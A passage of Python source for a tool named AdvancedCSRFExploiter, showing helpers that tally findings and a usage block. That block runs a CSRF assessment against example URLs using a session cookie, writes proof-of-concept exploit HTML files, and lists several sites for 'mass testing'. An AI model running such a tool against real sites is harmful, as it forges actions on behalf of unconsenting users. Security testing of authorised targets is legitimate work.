 ```python
            'common_vulnerabilities': self.analyze_common_vulnerabilities(),
            'detailed_results': self.results
        }
    
    def analyze_risk_distribution(self):
        """Analyze risk distribution across findings"""
        risk_dist = {'Critical': 0, 'High': 0, 'Medium': 0, 'Low': 0}
        
        for result in self.results:
            for finding in result['results']:
                risk_level = finding['risk_level']
                risk_dist[risk_level] = risk_dist.get(risk_level, 0) + 1
        
        return risk_dist
    
    def analyze_common_vulnerabilities(self):
        """Analyze most common vulnerabilities"""
        vuln_counts = {}
        
        for result in self.results:
            for finding in result['results']:
                for vuln in finding['vulnerabilities']:
                    vuln_counts[vuln] = vuln_counts.get(vuln, 0) + 1
        
        return sorted(vuln_counts.items(), key=lambda x: x[1], reverse=True)

# Usage Example
if __name__ == "__main__":
    # Single target CSRF testing
    exploiter = AdvancedCSRFExploiter("https://vulnerable-site.com/dashboard")
    
    # Set session cookies if needed
    exploiter.session.cookies.update({'session_id': 'your_session_cookie'})
    
    # Run comprehensive assessment
    results = exploiter.comprehensive_csrf_assessment()
    
    print(f"\nCSRF Assessment Results:")
    print(f"Total operations tested: {results['total_operations']}")
    print(f"Vulnerable operations: {results['vulnerable_operations']}")
    print(f"Critical findings: {results['summary']['critical_findings']}")
    print(f"High findings: {results['summary']['high_findings']}")
    
    # Save results
    with open('csrf_assessment_results.json', 'w') as f:
        json.dump(results, f, indent=2)
    
    # Generate PoCs for vulnerable operations
    for i, result in enumerate(results['results']):
        if result['vulnerabilities']:
            for j, poc in enumerate(result['pocs']):
                filename = f"csrf_poc_{i}_{j}.html"
                with open(filename, 'w') as f:
                    f.write(poc['poc'])
                print(f"Generated PoC: {filename}")
    
    # Mass testing example
    targets = [
        {'url': 'https://site1.com/admin'},
        {'url': 'https://site2.com/dashboard'},
        {'url': 'https://site3.com/profile'}
    ]
    
```